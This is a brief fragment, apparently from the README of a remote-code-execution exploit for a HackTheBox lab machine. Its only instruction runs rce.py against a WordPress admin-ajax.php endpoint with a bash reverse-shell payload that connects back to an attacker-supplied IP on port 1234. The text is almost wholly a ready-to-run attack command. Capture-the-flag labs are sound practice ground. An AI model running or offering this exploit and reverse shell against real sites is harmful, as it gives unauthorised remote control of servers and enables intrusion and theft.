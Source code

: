download rce and lib file to the same dir and run the command 

python3 rce.py 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' 'bash -c "bash -i >& /dev/tcp/[ip here]/1234 0>&1"'
